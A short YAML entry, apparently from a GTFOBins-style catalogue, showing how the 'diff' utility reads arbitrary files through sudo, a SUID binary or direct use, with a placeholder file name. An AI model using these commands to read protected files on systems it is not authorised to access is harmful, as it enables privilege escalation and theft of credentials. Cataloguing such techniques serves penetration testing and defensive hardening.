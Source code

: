 ```yaml
---
functions:
  sudo-enabled:
    - code: |
        LFILE=file_to_read
        sudo diff --line-format=%L /dev/null $LFILE
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./diff --line-format=%L /dev/null $LFILE
  file-read:
    - code: |
        LFILE=file_to_read
        diff --line-format=%L /dev/null $LFILE
---
```

